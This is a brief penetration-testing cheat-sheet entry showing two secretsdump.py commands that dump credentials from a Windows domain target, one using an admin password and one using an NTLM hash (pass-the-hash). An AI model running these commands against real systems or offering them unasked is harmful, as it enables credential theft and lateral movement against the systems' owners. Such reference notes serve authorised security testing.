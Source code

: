 >[!Note]
>The following commands need credentials of an administrative user!

Dump credentials with *secretsdump.py*:
```bash
secretsdump.py <AD-domain>/<user>:'<password>'@<target-ip>
```
Using NTLM-hash:
```bash
secretsdump.py <user>@<target-ip> -hashes <NTLM-hash>
```